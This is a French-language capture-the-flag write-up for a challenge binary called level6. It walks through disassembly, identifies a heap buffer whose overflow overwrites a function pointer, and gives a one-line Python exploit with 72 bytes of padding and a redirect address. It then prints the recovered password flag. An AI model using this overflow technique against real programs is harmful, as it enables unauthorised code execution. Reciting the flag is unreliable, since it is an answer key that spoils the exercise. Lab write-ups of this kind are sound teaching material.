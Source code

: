 



# level6


## description
- Il y a un exécutable **level6**.
- Lorsqu'on l'exécute sans arguments, il **Segfault**.
- Lorsqu'on l'exécute avec des arguments, il affiche "**Nope**".

## Résolution

Lorsqu'on desassemble le main. on voit deux utilisations de **malloc**.

    (gdb) disas main
    Dump of assembler code for function main:
	[...]
       0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
       0x0804848c <+16>:    call   0x8048350 <malloc@plt>
       0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
       0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
       0x0804849c <+32>:    call   0x8048350 <malloc@plt>
	[...]
    End of assembler dump.
Le premier **malloc** alloue 64 bytes(**0x40**) et le deuxième alloue 4bytes(**0x4** ).
Ce qui fait que le 2e **malloc** est un **pointeur sur fonction** qui pointe sur la fonction **m**. cette fonction sera utilisée plus tard apres un **strcpy**.
Il existe une fonction **n** qui n'est pas utilisée.

       0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0
       0x08048461 <+13>:    call   0x8048370 <system@plt>
system prends en argument **"/bin/cat /home/user/level7/.pass"**.

Notre objectif va être de utiliser un **heap overflow** pour réécrire le pointeur sur fonction avec l'adresse de la fonction n qui va nous afficher le flag.

Grace au pattern generator, on sait que l'on doit faire un padding de **72** avant notre adresse.

on prends l'adresse de **n** et on la reverse **\x54\x84\x04\x08**.

    python -c 'print "A" * 72 + "\x54\x84\x04\x08"' > /tmp/exploit3 && ./level6 `cat /tmp/exploit3`

On obtient le flag 

    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
